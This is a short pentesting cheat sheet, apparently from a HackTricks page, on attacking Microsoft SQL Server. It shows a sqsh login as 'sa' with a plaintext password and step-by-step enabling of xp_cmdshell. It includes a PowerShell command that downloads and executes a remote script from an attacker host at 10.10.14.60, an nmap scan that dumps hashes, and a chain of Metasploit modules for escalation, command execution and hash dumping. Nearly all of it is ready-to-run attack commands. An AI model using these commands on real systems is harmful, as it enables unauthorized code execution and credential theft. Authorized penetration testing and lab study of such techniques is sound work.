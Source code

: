 ```

    #sqsh -S 10.10.10.59 -U sa -P GWE3V65#6KFH93@4GWTG2G

    ###the goal is to get xp_cmdshell working###
    1. try and see if it works
        xp_cmdshell `whoami`
        go

    2. try to turn component back on
        EXEC SP_CONFIGURE 'xp_cmdshell' , 1
        reconfigure
        go
        xp_cmdshell `whoami`
        go

    3. 'advanced' turn it back on
        EXEC SP_CONFIGURE 'show advanced options', 1
        reconfigure
        go
        EXEC SP_CONFIGURE 'xp_cmdshell' , 1
        reconfigure
        go
        xp_cmdshell 'whoami'
        go




    xp_cmdshell "powershell.exe -exec bypass iex(new-object net.webclient).downloadstring('http://10.10.14.60:8000/ye443.ps1')"


    https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-mssql-microsoft-sql-server/index.html

Entry_2:
  Name: Nmap for SQL
  Description: Nmap with SQL Scripts
  Command: nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 {IP}

Entry_3:
  Name: MSSQL consolesless mfs enumeration
  Description: MSSQL enumeration without the need to run msfconsole
  Note: sourced from https://github.com/carlospolop/legion
  Command: msfconsole -q -x 'use auxiliary/scanner/mssql/mssql_ping; set RHOSTS {IP}; set RPORT <PORT>; run; exit' && msfconsole -q -x 'use auxiliary/admin/mssql/mssql_enum; set RHOSTS {IP}; set RPORT <PORT>; run; exit' && msfconsole -q -x 'use admin/mssql/mssql_enum_domain_accounts; set RHOSTS {IP}; set RPORT <PORT>; run; exit' &&msfconsole -q -x 'use admin/mssql/mssql_enum_sql_logins; set RHOSTS {IP}; set RPORT <PORT>; run; exit' && msfconsole -q -x 'use auxiliary/admin/mssql/mssql_escalate_dbowner; set RHOSTS {IP}; set RPORT <PORT>; run; exit' && msfconsole -q -x 'use auxiliary/admin/mssql/mssql_escalate_execute_as; set RHOSTS {IP}; set RPORT <PORT>; run; exit' && msfconsole -q -x 'use auxiliary/admin/mssql/mssql_exec; set RHOSTS {IP}; set RPORT <PORT>; run; exit' && msfconsole -q -x 'use auxiliary/admin/mssql/mssql_findandsampledata; set RHOSTS {IP}; set RPORT <PORT>; run; exit' && msfconsole -q -x 'use auxiliary/scanner/mssql/mssql_hashdump; set RHOSTS {IP}; set RPORT <PORT>; run; exit' && msfconsole -q -x 'use auxiliary/scanner/mssql/mssql_schemadump; set RHOSTS {IP}; set RPORT <PORT>; run; exit'

```

{{#include ../../banners/hacktricks-training.md}}



